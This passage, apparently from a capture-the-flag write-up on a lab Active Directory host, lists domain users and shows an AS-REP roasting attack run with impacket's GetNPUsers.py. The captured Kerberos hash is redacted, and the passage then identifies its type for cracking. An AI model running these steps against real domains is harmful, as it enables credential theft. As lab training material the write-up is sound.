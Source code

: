
Let's clean up the SidTypeUsers and add them to a user.txt

## Extracting Users

```
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

## Retrieving hashes using ASREPRoast

This attack looks for users without Kerberos pre-authentication required attribute.

```
python3 /opt/impacket/examples/GetNPUsers.py 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip $IP
```

```
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST:[REDACTED]

[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Let's add it to hash.txt

### Identifying the hash

For this task, we can use the name-the-hash tool by our very own bee-san!

```
name-that-hash -f hash.txt
```

```
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    
Most Likely 
Kerberos 5 AS-REP etype 23, HC: 18200 JtR: krb5pa-sha1 Summary: Used for Windows Active 
Directory
```

